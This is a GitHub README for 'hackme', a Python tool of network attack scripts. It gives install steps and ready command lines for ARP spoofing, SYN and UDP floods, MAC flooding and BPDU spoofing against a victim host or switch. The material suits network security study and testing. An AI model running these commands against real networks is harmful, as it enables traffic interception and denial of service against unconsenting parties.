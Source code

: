 
# hackme

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)
[![GitHub license](https://img.shields.io/github/license/nadzyah/hackme?style=for-the-badge)](https://github.com/nadzyah/hackme/blob/main/LICENSE)

A collection of scripts that implement different network attacks. **For informational purposes only.**

See the article about how to use it [here](https://medium.com/@nadzeya/exploring-your-networks-vulnerabilities-can-you-hack-it-836aee46c156)

Any contributor to this project doesn't take any responsibility for the illegal usage of any script from this project.

# Installation and Usage

The tested environment:
* Python v3.10
* Ubuntu 22.04 LTS

Make sure that `python3-scapy` is installed on your system: `sudo apt-get install python3-scapy`

You can either run `hackmeapp.py` from a checkout of the code or install it like any other Python project. Remember that most of the scripts here can be executed only with the root privileges, so you need to run it with sudo.

```bash
$ sudo pip3 install hackme
$ sudo hackme
usage: hackme [-h] [--debug] {attack} ...
```

To enter the debug mode, use the `--debug` option after the `hackme` command.

To get the attack description in the terminal, enter `hackme <attack> --desc`


# Implemented Attacks

The following commands include the `--debug` option, which is not required to execute an attack.

## ARP Spoofing

Example usage:

```bash
$ sudo hackme --debug arpspoof -i wlp2s0 -m aa:aa:aa:aa:aa:aa -gm BB-BB-BB-BB-BB-BB -gip 192.168.0.1 -vm cc:cc:cc:cc:cc:cc -vip 192.168.0.108
```

where:

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — the interface MAC-address (can be written as `AA:AA:AA:AA:AA:AA`, `AA-AA-AA-AA-AA-AA` and `aa-aa-aa-aa-aa-aa`)
* `bb:bb:bb:bb:bb:bb` — the gateway's MAC-address
* `192.168.0.1` — the gateway's IP-address
* `cc:cc:cc:cc:cc:cc` — the victim's MAC-address
* `192.168.0.108` — the victim's IP-address

Run `sudo hackme arpspoof --help` to get more information.

## SYN Flood

Example usage:

```bash
$ sudo hackme --debug synflood -d 172.17.17.10 -p 443 -c 1000
```
where:

* `172.17.17.10` — server's IP-address
* `443` — server's port
* `1000` — the number of packets to be sent

Run `sudo hackme synflood --help` to get more information.

## UDP Flood

Example usage:

```bash
$ sudo hackme --debug udpflood -d 172.17.17.10 -p 53 -c 1000
```

where:

* `172.17.17.10` — server's IP-address
* `53` — server's port
* `1000` — the number of packets to be sent

Run `sudo hackme udpflood --help` to get more information.

## MAC Flood

Example usage:

```bash
$ sudo hackme --debug macflood -i wlp2s0 -vm "aa:aa:aa:aa:aa:aa" -c 100000
```

where:

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — the victim's MAC-address (can be written as `AA:AA:AA:AA:AA:AA`, `AA-AA-AA-AA-AA-AA` and `aa-aa-aa-aa-aa-aa`)
* `100000` — the number of packets to be sent

Run `sudo hackme macflood --help` to get more information.

## BPDU Spoofing

Example usage:

```bash
sudo ./hackmeapp.py --debug stpspoof -i wlp2s0 -smac "aa:aa:aa:aa:aa:aa" -dmac "bb:bb:bb:bb:bb:bb" -p 4096
```

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — your MAC-address
* `bb:bb:bb:bb:bb:bb` — victim switch's MAC-address
* `4096` — priority for choosing the root switch (the lower the number, the higher the priority, so make sure it's low enough to become the root). Must be divisible by 4096
